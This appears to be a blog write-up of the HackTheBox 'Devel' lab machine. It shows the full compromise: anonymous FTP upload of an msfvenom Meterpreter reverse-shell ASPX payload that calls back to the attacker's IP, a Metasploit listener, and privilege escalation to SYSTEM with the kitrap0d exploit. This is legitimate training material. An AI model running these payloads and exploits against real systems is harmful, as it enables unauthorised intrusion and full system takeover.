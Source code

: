 ```yaml
---
title: 'HachTheBox - Devel'
date: '2021-10-05 14:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5".

 We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I could bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, I test it to see if we can get access. The anonymous login is successfull. We'll be using it to upload a malicious file. The malicious file will be a reverse shell that we'll be connecting to via Metasploit.

![iis-webpage](/assets/img/devel/ftp-in.png)

The snippet we need to generate our malicious file can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/". As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```. 

![iis-webpage](/assets/img/devel/cheatsheet.png)

Enter the snippet for ```msfvenom``` to build the file. Add your ```tun0``` IP to ```LHOST```. I changed the file extension to ASPX, but either ASP or ASPX will work.

Make sure the file extension in the command and the extension of the file your putting it in are the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![iis-webpage](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. This is what our malicious file will connect back to once we have uploaded it to the FTP server and triggered it via a browser.

![iis-webpage](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our ```tun0``` network interface. We enter ```run``` to start the listener.

![iis-webpage](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![iis-webpage](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```. You can use the ```ls``` command to list out the files on the FTP server to confirm the ```ex.apsx``` has uploaded.

![iis-webpage](/assets/img/devel/put-ex.png)

To execute the file we navigate to the url of the web server and append the file name ```http://10.10.10.5/ex.aspx```. This triggers the reverse shell. We return back to the listener session and see wee have a ```meterpreter``` session. However after typing ```getuid``` we see we have low level privilges. We need to escalate our privileges.

![iis-webpage](/assets/img/devel/run-getuid.png)

For the moment we background the session.

![iis-webpage](/assets/img/devel/bg-session.png)

In Metasploit we ```search suggester``` for a post module that will escalate our privileges. It returns one post exploit module.

![iis-webpage](/assets/img/devel/suggester-results.png)

We ```use post/multi/recon/local_exploit_suggester```. Then set the ```options```. We only need to specify the session that we want, that's the session of the reverse shell we have with the FTP server. You can find the session number from when we ran ```background```.

![iis-webpage](/assets/img/devel/use-set-run.png)

The suggester returns some possible exploits. In this instance we want to use the ```kitrap0d``` exploit. We ```use exploit/windows/local/ms10_015_kitrap0d```

![iis-webpage](/assets/img/devel/sggest-results.png)

We look at the options.

![iis-webpage](/assets/img/devel/kitra-options.png)

We ```set session 2```, ```set LHOST 10.10.16.3```, and ```set LPORT 4445```. Be sure to use your ```tun0``` IP, as the exploit will have defaulted to your ```eth0``` address. And as we're already using port 4445, we want to use another port.

![iis-webpage](/assets/img/devel/kitra-set.png)

We ```run``` the exploit, type ```getuid```, and see we now have ```AUTHORITY/SYSTEM```. This system has been owned!

![iis-webpage](/assets/img/devel/kitra-run.png)

With ```search -f user.txt.txt``` and ```search -f root.txt``` you can locate the flags to fully own the system :)

![iis-webpage](/assets/img/devel/locate-flags.png)








